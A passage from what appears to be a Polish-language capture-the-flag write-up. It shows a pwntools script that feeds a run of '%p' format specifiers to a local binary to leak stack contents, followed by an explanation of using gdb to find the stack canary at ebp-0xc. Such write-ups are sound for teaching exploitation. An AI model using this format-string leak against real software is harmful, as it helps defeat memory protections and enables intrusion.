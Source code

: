 ```python
from pwn import *

p = process('./vuln-3.o')

p.writeline("%p " * 199)

data = p.readline()

data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```






![](pictures/2_print_stack.png)


Następnie, musiałem zidentyfikować, w którym miejscu znajduje się kanarek. W tym celu posłużyłem się `gdb`. W `disassemble` kodzie funkcji `vuln` dokładnie widać, w którym miejscu kanarek jest sprawdzany. Widać też, pod jakim adresem znajduje się on na stosie, jest to adres `ebp - 0xc`. Mówi o tym instrukcja `mov    eax,DWORD PTR [ebp-0xc]`.


